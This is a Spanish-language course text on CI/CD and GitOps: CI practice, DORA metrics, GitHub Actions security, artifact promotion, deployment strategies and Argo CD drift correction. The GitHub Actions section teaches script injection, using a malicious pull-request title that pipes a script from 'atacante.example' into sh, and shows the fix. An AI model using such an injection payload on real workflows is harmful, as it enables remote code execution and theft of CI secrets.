


# titulo: CI/CD y GitOps


# Integración continua

## Objetivos de aprendizaje

- **1.1** Explicar qué es la integración continua y qué prácticas exige.
- **1.2** Diseñar una tubería de CI rápida y fiable.
- **1.3** Medir la entrega de software con las métricas DORA.

## Qué es

**Integración continua** (CI) no es «tener un servidor que compila». Es la práctica de que todo el equipo **integre su trabajo en la rama principal al menos una vez al día**, con una compilación y unas pruebas automáticas que avisan **en minutos** si algo se ha roto. Martin Fowler la resume en prácticas como:

- Todo en un repositorio de control de versiones, incluida la configuración de la compilación.
- Compilación automática y **pruebas automáticas** dentro de ella.
- Integrar en la rama principal **a diario**; ramas de vida corta.
- Cada integración se verifica; si la rama principal se rompe, **arreglarla es lo primero**.
- La compilación debe ser **rápida**.

Lo contrario, ramas que viven semanas, termina en integraciones dolorosas con conflictos y errores que nadie sabe de dónde vienen. El **desarrollo basado en el tronco** (*trunk-based development*) lleva la idea al extremo: ramas de horas o pocos días y, si hace falta esconder algo a medio hacer, **interruptores de funcionalidad** (lección 4).

## La tubería

Una tubería típica de CI, de lo más barato a lo más caro, para que falle lo antes posible:

1. **Comprobaciones estáticas**: formato, linter, tipos (segundos).
2. **Pruebas unitarias** (segundos a pocos minutos).
3. **Compilación** del artefacto: el JAR, la imagen de contenedor.
4. **Pruebas de integración** con dependencias reales (Testcontainers).
5. **Análisis de seguridad**: dependencias vulnerables, secretos filtrados.



```nodos
C:
  concepto: integracion-continua
E:
  titulo: Comprobaciones estáticas
  texto: Lo más barato va primero, para que la tubería falle lo antes posible. Tardan segundos.
U:
  titulo: Pruebas unitarias
  texto: De segundos a pocos minutos.
B:
  concepto: artefacto-inmutable
I:
  titulo: Pruebas de integración
  texto: Con dependencias reales en contenedores. Más lentas, por eso van después.
S:
  titulo: Análisis de seguridad
  texto: Dependencias vulnerables y secretos filtrados.
```

El repositorio de esta biblioteca hace eso: markdownlint, validación de los ejercicios, pytest, comprobación de enlaces y construcción de la imagen, en menos de un minuto.

Reglas que mantienen la tubería útil:

- **Rápida**: si tarda 40 minutos, la gente deja de esperar el resultado. Paraleliza, usa caché y separa lo lento.
- **Fiable**: una prueba que falla a veces (*flaky*) enseña a ignorar los fallos. Arréglala o quítala.
- **Igual para todos**: la CI y el portátil usan las mismas versiones (fichero de bloqueo, imagen fija).

## Métricas DORA

El programa de investigación **DORA** mide el rendimiento de la entrega de software con cinco métricas, en dos grupos:

| Grupo | Métrica | Qué mide |
|---|---|---|
| Rendimiento | Tiempo de entrega del cambio | Del commit a producción |
| Rendimiento | Frecuencia de despliegue | Cuántos despliegues por periodo |
| Rendimiento | Tiempo de recuperación de un despliegue fallido | Cuánto se tarda en recuperarse |
| Inestabilidad | Tasa de fallo de cambios | Proporción de despliegues que requieren intervención inmediata |
| Inestabilidad | Tasa de retrabajo | Proporción de despliegues no planificados para arreglar un problema en producción |

Su hallazgo central es que **velocidad y estabilidad no se oponen**: los equipos que despliegan más a menudo, con cambios pequeños, también fallan menos y se recuperan antes.

## Puntos clave

- CI es integrar en la rama principal a diario con verificación automática, no solo tener un servidor.
- Ramas cortas; la rama principal rota se arregla antes que nada.
- Tubería ordenada de lo barato a lo caro, rápida, fiable y reproducible.
- DORA mide rendimiento (tiempo de entrega, frecuencia, recuperación) e inestabilidad (tasa de fallo, retrabajo).

## Referencias

- Martin Fowler, [Continuous Integration](https://martinfowler.com/articles/continuousIntegration.html).
- [Trunk Based Development](https://trunkbaseddevelopment.com/).
- DORA, [DORA's software delivery performance metrics](https://dora.dev/guides/dora-metrics/).

# GitHub Actions

## Objetivos de aprendizaje

- **2.1** Leer y escribir un flujo de trabajo: eventos, trabajos, pasos y matrices.
- **2.2** Limitar los permisos de `GITHUB_TOKEN` y proteger los secretos.
- **2.3** Evitar la inyección de scripts y los disparadores peligrosos.
- **2.4** Revisar los flujos con actionlint.

## Anatomía

Un **flujo de trabajo** es un YAML en `.github/workflows/`:

```yaml
name: CI
on:
  pull_request:
  push:
    branches: [main]
permissions:
  contents: read
concurrency:
  group: ci-${{ github.ref }}
  cancel-in-progress: true
jobs:
  pruebas:
    runs-on: ubuntu-latest
    timeout-minutes: 10
    strategy:
      matrix:
        python: ["3.14", "3.15"]
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
      - uses: astral-sh/setup-uv@68559e99cc807c1eb7e9238fd43a15bba460eec2 # v10.3.3
      - env:
          TITULO: ${{ github.event.pull_request.title }}
        run: echo "Probando $TITULO"
      - run: uv sync --locked --python ${{ matrix.python }}
      - run: uv run ruff check .
      - run: uv run pytest
```

| Parte | Qué hace |
|---|---|
| `on` | Eventos que lo lanzan: cada pull request y cada push a `main` |
| `jobs` | Trabajos; se ejecutan en paralelo salvo que uno declare `needs` |
| `strategy.matrix` | Repite el trabajo por cada combinación: aquí, con Python 3.14 y 3.15 |
| `steps` | Pasos en orden: `uses` ejecuta una acción, `run` una orden |
| `concurrency` | Cancela la ejecución anterior de la misma rama si llega otra |
| `timeout-minutes` | Corta un trabajo colgado en lugar de esperar las 6 horas máximas |

## Permisos y secretos

Cada ejecución recibe un **`GITHUB_TOKEN`** temporal. La documentación de GitHub recomienda darle **solo lectura** del contenido por defecto (`permissions: contents: read`) y ampliar por trabajo lo que haga falta (`packages: write` para publicar una imagen, por ejemplo).

Los **secretos** (`${{ secrets.CLAVE }}`) se enmascaran en los registros. No se pasan a los flujos lanzados desde forks, y es mejor no tenerlos de larga duración: para desplegar en la nube, **OIDC** permite obtener credenciales temporales sin guardar ninguna clave.

## Ataques a evitar

**Inyección de script**. `${{ }}` se sustituye **antes** de ejecutar la orden. Si el valor lo controla un tercero, como el título de un pull request, puede inyectar órdenes:

```yaml
- run: echo "Probando ${{ github.event.pull_request.title }}"
# Título malicioso: a"; curl https://atacante.example/x.sh | sh; echo "
```

La solución es pasarlo por una **variable de entorno**, como en el ejemplo de arriba: la shell la trata como dato, no como código.

**`pull_request_target`**. Se ejecuta en el contexto del repositorio de destino, **con secretos y permisos de escritura**, aunque el pull request venga de un fork. La documentación de GitHub advierte que ejecutar en él código no confiable puede dar acceso a secretos o envenenar la caché. Para probar el código de un pull request, usa `pull_request`.

**Acciones de terceros**. `uses: accion@v7` apunta a una etiqueta que su dueño puede mover. GitHub recomienda **fijar el SHA completo** del commit (con la versión en un comentario) para que nadie cambie el código que ejecutas.

## actionlint

**actionlint** revisa los flujos antes de subirlos. Sobre un flujo con errores típicos, la versión 1.7.12 respondió:

```text
malo.yml:12:33: "github.event.pull_request.title" is potentially untrusted. avoid using it
                directly in inline scripts. instead, pass it through an environment variable.
malo.yml:15:31: property "pyton" is not defined in object type {python: number}
malo.yml:17:26: expecting a single ${{...}} expression or float number literal, but found plain text node
```

Detectó la inyección, la errata en la variable de la matriz y un `timeout-minutes: "diez"`. El flujo corregido no dio ningún aviso. No detectó, en cambio, el uso de `pull_request_target`: ninguna herramienta sustituye a entender los riesgos.

## Puntos clave

- Eventos, trabajos en paralelo, pasos en orden y matrices para varias versiones.
- `permissions: contents: read` por defecto; más permisos solo donde hagan falta. OIDC mejor que secretos de larga duración.
- Nunca pongas `${{ }}` con datos de terceros dentro de `run`: usa variables de entorno.
- `pull_request_target` tiene secretos y escritura: no ejecutes con él código del pull request.
- Fija las acciones por SHA y revisa los flujos con actionlint.

## Referencias

- GitHub, [Workflow syntax](https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-syntax).
- GitHub, [Secure use reference](https://docs.github.com/en/actions/reference/security/secure-use).
- GitHub, [Events that trigger workflows](https://docs.github.com/en/actions/reference/workflows-and-actions/events-that-trigger-workflows).
- GitHub, [Authenticate with GITHUB_TOKEN](https://docs.github.com/en/actions/tutorials/authenticate-with-github_token).
- GitHub, [Control workflow concurrency](https://docs.github.com/en/actions/how-tos/write-workflows/choose-when-workflows-run/control-workflow-concurrency).
- [actionlint](https://github.com/rhysd/actionlint).

# Entrega continua

## Objetivos de aprendizaje

- **3.1** Distinguir entrega continua de despliegue continuo.
- **3.2** Construir una vez y promocionar el mismo artefacto entre entornos.
- **3.3** Versionar los artefactos y protegerlos.

## Entrega y despliegue continuos

- **Entrega continua**: el software está **siempre listo** para desplegarse en producción; desplegar es una decisión de negocio, a un clic.
- **Despliegue continuo**: cada cambio que supera la tubería llega a producción **automáticamente**, sin aprobación.

Martin Fowler insiste en no confundirlas: con entrega continua se puede desplegar a menudo, pero se elige cuándo. El despliegue continuo exige una confianza total en las pruebas y en la capacidad de detectar fallos y volver atrás.

## Construir una vez

La tubería **compila una sola vez** y el **mismo artefacto** pasa por todos los entornos. Lo que cambia entre entornos es la **configuración**, que llega por variables de entorno o secretos, como pide la metodología de los doce factores (separar construcción, publicación y ejecución).

```text
commit → CI → imagen tienda@sha256:9f2c… → pruebas → preproducción → producción
                                           (la misma imagen en todos los pasos)
```

Si se recompila para cada entorno, lo que llega a producción **no es** lo que se probó: otra versión de una dependencia, otro compilador, otra base.

Para que «el mismo» sea verificable, el artefacto se identifica por algo **inmutable**:

- Una etiqueta (`tienda:1.4.0`, `tienda:latest`) **se puede mover** a otra imagen.
- Un **digest** (`tienda@sha256:…`) es el hash del contenido: si cambia un byte, cambia el digest.

Despliega por digest, o usa un registro que impida sobrescribir etiquetas.

## Versiones

**Versionado semántico** (`MAYOR.MENOR.PARCHE`): se incrementa MAYOR con cambios incompatibles, MENOR con funcionalidad compatible y PARCHE con correcciones. Encaja con bibliotecas y APIs públicas. Para un servicio que se despliega varias veces al día, también vale un identificador basado en el commit (`2026.11.19-1aff8d5`): lo importante es que cada versión desplegada se pueda **rastrear hasta su commit**.

## La cadena de suministro

El artefacto puede manipularse entre que se construye y se despliega. **SLSA** (*Supply-chain Levels for Software Artifacts*) define niveles de garantía: construir en un servicio controlado, generar la **procedencia** (quién lo construyó, desde qué commit y cómo) y verificarla antes de desplegar. Herramientas como Sigstore cosign **firman** imágenes, y el clúster puede rechazar las que no estén firmadas.

## Puntos clave

- Entrega continua: siempre desplegable, se decide cuándo. Despliegue continuo: automático.
- Construye una vez y promociona el mismo artefacto; cambia solo la configuración.
- Las etiquetas se mueven, los digests no: despliega por digest.
- Cada versión debe poder rastrearse hasta su commit.
- Procedencia y firma (SLSA, cosign) protegen la cadena de suministro.

## Referencias

- Martin Fowler, [Continuous Delivery](https://martinfowler.com/bliki/ContinuousDelivery.html).
- The Twelve-Factor App, [Construir, publicar, ejecutar](https://12factor.net/es/build-release-run).
- [Versionado semántico 2.0.0](https://semver.org/lang/es/).
- [SLSA](https://slsa.dev/).

# Estrategias de despliegue

## Objetivos de aprendizaje

- **4.1** Comparar despliegue progresivo, azul-verde y canario.
- **4.2** Separar el despliegue del lanzamiento con interruptores de funcionalidad.
- **4.3** Cambiar el esquema de la base de datos sin parar el servicio.
- **4.4** Decidir entre volver atrás y corregir hacia delante.

## Tres estrategias

| Estrategia | Cómo | Vuelta atrás | Coste |
|---|---|---|---|
| **Progresiva** (*rolling*) | Se sustituyen las instancias poco a poco | Otro despliegue progresivo | Bajo; es lo que hace un Deployment de Kubernetes |
| **Azul-verde** | Dos entornos completos; se despliega en el inactivo y se cambia el tráfico de golpe | Inmediata: volver a apuntar al anterior | El doble de recursos durante el cambio |
| **Canario** | La versión nueva recibe primero una pequeña parte del tráfico (el 5 %) y se amplía si sus métricas son buenas | Retirar el canario | Requiere enrutar por porcentaje y vigilar métricas |

El despliegue progresivo con sondas de disponibilidad y la vuelta atrás con `kubectl rollout undo` se practican en el tema de Kubernetes.

El **canario** encaja con las señales del tema de observabilidad: se compara la tasa de error y la latencia del canario con las de la versión estable y, si empeoran, se retira antes de que lo note la mayoría. Herramientas como Argo Rollouts o Flagger automatizan esa decisión.

## Desplegar no es lanzar

Un **interruptor de funcionalidad** (*feature flag*) es una condición configurable que activa o desactiva una funcionalidad **sin desplegar**:

```python
if flags.activo("pago-con-bizum", usuario):
    return pagar_con_bizum(pedido)
return pagar_con_tarjeta(pedido)
```

Así se separan dos decisiones:

- **Desplegar**: poner el código en producción, apagado. Es técnico y frecuente.
- **Lanzar**: activarlo, quizá solo para empleados, para el 10 % o para un país. Es de negocio y se puede revertir en segundos.

Permiten integrar a diario trabajo a medio hacer (desarrollo basado en el tronco). Su coste: cada interruptor es una rama más en el código. Fowler recomienda tratarlos como deuda y **eliminarlos** cuando la funcionalidad está lanzada del todo.

## La base de datos

Durante un despliegue progresivo o canario conviven **dos versiones** de la aplicación sobre **la misma base de datos**. Un cambio de esquema incompatible (renombrar una columna) rompe una de las dos. La técnica es **expandir y contraer** (*parallel change*), en varios despliegues:

1. **Expandir**: añadir la columna nueva, sin quitar la vieja.
2. Desplegar código que **escribe en las dos** y lee de la nueva; migrar los datos existentes.
3. Desplegar código que **solo usa la nueva**.
4. **Contraer**: borrar la columna vieja cuando ninguna versión la usa.

Cada paso es compatible con el anterior, así que cualquier despliegue se puede revertir.

## Volver atrás o corregir hacia delante

Ante un fallo en producción:

- **Volver atrás** (*rollback*): desplegar la versión anterior. Es lo más rápido **si** el cambio es reversible: por eso importa expandir y contraer.
- **Corregir hacia delante** (*roll forward*): desplegar una corrección. Con una tubería rápida y cambios pequeños, a veces es más sencillo.

Lo primero es **restaurar el servicio**; la causa se investiga después. Y en GitOps, la vuelta atrás se hace **revirtiendo el commit**, para que Git siga reflejando lo desplegado.

## Puntos clave

- Progresivo es lo básico; azul-verde da una vuelta atrás instantánea; canario limita el daño midiendo con poco tráfico.
- Los interruptores separan desplegar de lanzar; elimínalos cuando dejen de hacer falta.
- Cambios de esquema en varios pasos (expandir y contraer), porque conviven dos versiones.
- Primero restaurar el servicio: volver atrás si es reversible, o corregir hacia delante.

## Referencias

- Martin Fowler, [Blue Green Deployment](https://martinfowler.com/bliki/BlueGreenDeployment.html).
- Martin Fowler, [Canary Release](https://martinfowler.com/bliki/CanaryRelease.html).
- Pete Hodgson, [Feature Toggles](https://martinfowler.com/articles/feature-toggles.html).
- Danilo Sato, [Parallel Change](https://martinfowler.com/bliki/ParallelChange.html).
- Kubernetes, [Deployments](https://kubernetes.io/docs/concepts/workloads/controllers/deployment/).

# GitOps

## Objetivos de aprendizaje

- **5.1** Enunciar los cuatro principios de GitOps.
- **5.2** Comparar el despliegue por empuje con el modelo de GitOps.
- **5.3** Configurar una aplicación de Argo CD con sincronización automática.
- **5.4** Entender la reconciliación y la corrección de la deriva.

## Los cuatro principios

El proyecto OpenGitOps, de la CNCF, define GitOps con cuatro principios:

1. **Declarativo**: el estado deseado del sistema se expresa de forma declarativa (manifiestos, no órdenes).
2. **Versionado e inmutable**: se guarda de forma que conserva todo el historial de versiones (Git).
3. **Extraído automáticamente**: unos agentes **traen** el estado deseado de esa fuente.
4. **Reconciliado continuamente**: los agentes observan el estado real y tratan de aplicar el deseado.

## Empujar frente a extraer

| | Empuje (*push*) | GitOps (*pull*) |
|---|---|---|
| Quién aplica | La CI ejecuta `kubectl apply` | Un agente dentro del clúster |
| Credenciales del clúster | Las tiene la CI | Solo el agente; la CI no necesita acceso |
| Cambios manuales | Nadie los detecta | Se detectan y se pueden corregir |
| Auditoría y vuelta atrás | Depende de la CI | El historial de Git; volver atrás es revertir un commit |

Con GitOps, la CI **construye** la imagen y **actualiza el manifiesto** en Git (la nueva etiqueta o el nuevo digest); el agente hace el resto.



```nodos
DEV:
  titulo: Desarrollador
  texto: Nunca aplica cambios al clúster a mano. Volver atrás es revertir un commit.
CI:
  titulo: CI
  texto: Construye y publica la imagen y escribe la nueva etiqueta o digest en el manifiesto. No necesita credenciales del clúster.
REG:
  titulo: Registro
  texto: Guarda la imagen inmutable que se desplegará.
GIT:
  concepto: gitops
K8S:
  titulo: Clúster
  texto: Solo el agente que vive dentro tiene permisos para cambiarlo.
ARGO:
  concepto: argo-cd
APP:
  concepto: deriva
```

## Argo CD

**Argo CD** es un agente de GitOps para Kubernetes. Una `Application` dice qué repositorio y ruta se despliegan, y dónde:

```yaml
apiVersion: argoproj.io/v1alpha1
kind: Application
metadata:
  name: guestbook
  namespace: argocd
spec:
  project: default
  source:
    repoURL: https://github.com/argoproj/argocd-example-apps.git
    targetRevision: HEAD
    path: guestbook
  destination:
    server: https://kubernetes.default.svc
    namespace: guestbook
  syncPolicy:
    automated:
      prune: true
      selfHeal: true
    syncOptions:
      - CreateNamespace=true
```

Probado con **Argo CD 3.6.2** en un clúster kind de Kubernetes 1.37: a los pocos segundos de crearla, la aplicación estaba `Synced Healthy`, con el Deployment y el Service del repositorio desplegados y la revisión de Git anotada.

## Reconciliación y deriva

Con la aplicación sincronizada, se hicieron dos cambios **a mano**: escalar el Deployment a 3 réplicas y borrar el Service. Con `selfHeal: true`:

```text
cambios manuales: replicas=3, service borrado
restaurado en 1.2 s: replicas=1, service=1
   Service guestbook-ui Synced service/guestbook-ui created
   Deployment guestbook-ui Synced deployment.apps/guestbook-ui configured
```

Argo CD vigila el clúster y devolvió el estado de Git en poco más de un segundo. Después se desactivó `selfHeal` y se repitió el escalado:

```text
réplicas tras 20 s: 3
estado: OutOfSync Healthy
   Deployment guestbook-ui OutOfSync
```

La **deriva** (*drift*) se detecta y se muestra, pero no se corrige. Según la documentación, por defecto los cambios en el clúster no lanzan la sincronización automática; hace falta `selfHeal`.

Otros comportamientos por defecto que conviene conocer:

- **`prune`**: por seguridad, la sincronización automática **no borra** los recursos que desaparecen de Git, salvo con `prune: true`.
- **Consulta de Git**: Argo CD revisa el repositorio cada **120 s más hasta 60 s** aleatorios (unos 3 minutos). Para reaccionar al instante a un commit, se configura un *webhook*.

## En la práctica

- **Repositorio de configuración** separado del código, a menudo uno por entorno o con carpetas por entorno (con Kustomize o Helm).
- **Secretos**: nunca en claro en Git. Se cifran (Sealed Secrets, SOPS) o se referencian desde un gestor externo (External Secrets).
- **Volver atrás** = revertir el commit. Si se usa `kubectl rollout undo` con `selfHeal`, Argo CD lo deshará en segundos, porque Git manda.
- **Flux** es la otra herramienta principal de GitOps en la CNCF, con los mismos principios.

## Puntos clave

- GitOps: estado declarativo, versionado en Git, extraído y reconciliado por agentes.
- La CI construye y actualiza Git; el agente aplica, y la CI no necesita credenciales del clúster.
- Con `selfHeal`, Argo CD deshizo los cambios manuales en 1,2 s; sin él, solo marcó `OutOfSync`.
- `prune` está desactivado por defecto; Git se consulta cada unos 3 minutos salvo con webhooks.
- Secretos cifrados o externos; la vuelta atrás se hace en Git.

## Referencias

- [OpenGitOps](https://opengitops.dev/).
- Argo CD, [Automated sync policy](https://argo-cd.readthedocs.io/en/stable/user-guide/auto_sync/).
- Argo CD, [FAQ](https://argo-cd.readthedocs.io/en/stable/faq/).
- Flux, [Core concepts](https://fluxcd.io/flux/concepts/).
